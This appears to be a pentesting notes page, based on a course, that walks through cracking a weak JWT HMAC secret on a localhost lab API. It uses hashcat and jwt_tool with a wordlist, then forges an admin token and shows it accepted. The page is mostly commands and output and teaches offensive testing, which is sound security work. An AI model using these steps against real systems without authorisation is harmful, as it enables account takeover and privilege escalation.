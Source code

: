 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Weak Signature

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

{% hint style="info" %}
_List with well-known secrets:_ [_jwt.secrets.list_](https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list)_._
{% endhint %}

{% code overflow="wrap" %}
```bash
# Logging in with valid creds
$ curl -X POST http://localhost/login -H 'Content-Type: application/json' --data '{"username":"user","password":"user"}'
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM"}

# Brute forcing the secret
hashcat -a0 -m16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM /usr/share/wordlists/rockyou
<SNIP>
eyJ...<SNIP>...CDM:ucyxu6
<SNIP>

# We can also crack the JWT secret with jwt_tool
$ jwt_tool -C -d /usr/share/wordlists/rockyou 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ==.BmzWWVFXmJsqH7K9dTxCyCopRB0HHFvCYKCfwW+8We4='

Original JWT:

[+] coffee is the CORRECT key!
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "coffee"
```
{% endcode %}

{% hint style="info" %}
_Hashcat signs the header and payload from the JWT using each wordlist secret and compares the resulting signature with the original one (_[_16500_](https://hashcat.net/wiki/doku.php?id=example\_hashes)_)._
{% endhint %}

<figure><img src="../../../../../../../.gitbook/assets/jwt_weak_signature.png" alt=""><figcaption><p>Figure 1: Tampering with the JWT's <code>userid</code> claim.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Testing the token
$ curl -i http://localhost/dashboard -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcxOTI5NTEwOX0.py2v7_Kqtexh4Cq8hqBdEV8wiCr8p6x9eeZFNGlKW4U'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 45
ETag: W/"2d-bqbMS3LH08+zkhZI3cPwYShjqaE"
Date: Tue, 25 Jun 2024 06:09:39 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"Welcome to your dashboard admin"}
```
{% endcode %}

We can also tamper the required claims using `jwt_tool`.

{% code overflow="wrap" %}
```bash
# Tampering with the JWT
$ jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM -T -S hs256 -p 'ucyxu6'

Original JWT:

====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] userid = "user"
[2] iat = 1719295109    ==> TIMESTAMP = 2024-06-25 06:58:29 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of userid is: user
Please enter new value and hit ENTER
> admin
[1] userid = "admin"
[2] iat = 1719295109    ==> TIMESTAMP = 2024-06-25 06:58:29 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_8043cf61f00c28f7a057cdc20df41290 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcxOTI5NTEwOX0.py2v7_Kqtexh4Cq8hqBdEV8wiCr8p6x9eeZFNGlKW4U
```
{% endcode %}

We can also tamper the JWT's claim using the Burp's [JWT Editor](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/jwts#editing-jwts) extension (Figure 2).

<figure><img src="../../../../../../../.gitbook/assets/jwt_weak_signature_1.png" alt=""><figcaption><p>Figure 2: </p></figcaption></figure>
